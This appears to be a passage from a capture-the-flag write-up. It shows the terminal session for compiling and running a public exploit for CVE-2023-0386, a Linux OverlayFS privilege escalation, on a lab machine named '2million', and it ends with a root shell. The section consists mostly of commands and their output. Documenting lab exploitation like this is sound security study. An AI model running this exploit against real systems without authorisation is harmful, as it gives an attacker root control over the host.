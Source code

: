 ```bash
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:~/CVE-2023-0386-main$ ls
exp    fuse    gc          Makefile  README.md
exp.c  fuse.c  getshell.c  ovlcap    test
admin@2million:~/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
fuse: mountpoint is not empty
fuse: if you are sure this is safe, use the 'nonempty' mount option
fuse_mount: File exists
```

The second terminal:

```bash
admin@2million:~/CVE-2023-0386-main$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Dec 23 07:37 .
drwxrwxr-x 6 root   root     4096 Dec 23 07:37 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

I got root!


